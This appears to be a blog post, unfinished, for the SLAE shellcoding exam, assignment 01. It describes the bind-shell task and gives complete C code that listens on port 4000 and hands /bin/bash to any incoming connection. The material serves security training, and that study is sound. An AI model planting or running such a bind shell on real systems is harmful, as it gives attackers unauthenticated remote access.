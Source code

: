 ```yaml
---
title: SLAE exam assignment 01
author: Stipe Marinovic
date: 2020-05-17 20:00:00 +0800
categories: [Blogging, Tutorial]
tags: [slae, shellcoding]
toc: true
---
```



... page still under construction ...  

# Assignment 01 #

* Create a Shell_Bind_TCP shellcode
  - Binds to a port
  - Execs Shell on incoming connection
* Port number should be easily configurable

# Figuring out syscalls #

To get idea how bind shell works and which syscalls are used, we can create bind shell code in C. After a bit of research, the simplest bind shell is following:
```
#include <stdio.h> 
#include <sys/types.h> 
#include <sys/socket.h> 
#include <netinet/in.h> 

int socketfd; 
int socketid; 

int main() { 

  // Define struct containing bind() arguments
  struct sockaddr_in server; 
   
  // Create socket 
  socketfd = socket(PF_INET, SOCK_STREAM, 0); 

  // Setup struct "server" containing following information: address, port and address family
  server.sin_addr.s_addr = htonl(INADDR_ANY); // any address (0.0.0.0)
  server.sin_port = htons(4000);              // port 4000
  server.sin_family = AF_INET;                // address family (ip v4)

  // Bind socket to ip 0.0.0.0, port 4000 
  bind(socketfd, (struct sockaddr*) &server, sizeof(server)); 

  // Listen for incoming connections 
  listen(socketfd, 2); 

  // Accept incoming connection 
  socketid = accept(socketfd, NULL, NULL); 

  // Bind STDIN (0), STDOUT (1), STDERR (2) to incoming connection 
  dup2(socketid, 0); 
  dup2(socketid, 1); 
  dup2(socketid, 2); 

  // Run /bin/bash shell 
  execve("/bin/bash", NULL, NULL); 
} 
```

